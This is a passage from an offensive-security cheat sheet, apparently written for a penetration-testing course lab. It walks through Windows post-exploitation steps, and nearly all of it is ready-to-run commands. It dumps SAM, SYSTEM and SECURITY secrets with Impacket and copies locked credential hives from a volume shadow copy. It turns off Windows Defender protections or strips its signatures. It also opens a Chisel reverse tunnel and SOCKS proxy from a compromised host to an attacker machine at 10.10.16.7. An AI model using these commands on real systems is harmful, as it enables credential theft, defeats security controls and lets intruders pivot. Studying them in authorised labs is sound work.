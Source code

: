 Then on our attacking box we can dump the secrets with Impacket:

```
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL > secrets.out 
```

#### Dumping secrets from a Volume Shadow Copy

We can also create a “Volume Shadow Copy” of the `SAM` and `SYSTEM` files (which are always locked on the current system), so we can still copy them over to our local system. An elevated prompt is required for this.

```
wmic shadowcopy call create Volume='C:\'
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system 
```

### Disable defender

👀🚩

```
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableIOAVProtection $true 
```

Or leave Defender enabled, and just remove the signatures from it.

```
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All 
```

### Chisel proxying

Just an example on how to set up a Socks proxy to chisel over a compromised host. There are many more things you can do with Chisel!

On attacker machine (Linux or Windows):

```
./chisel server -p 8888 --reverse 
```

On target:

```
.\chisel_windows_386.exe client 10.10.16.7:8888 R:8001:127.0.0.1:9001 
```

Now we are listening on `localhost:8001` on our attacking machine to forward that traffic to `target:9001`.

Then, open the Socks server. On target:

```
.\chisel_windows_386.exe server -p 9001 --socks5 
```
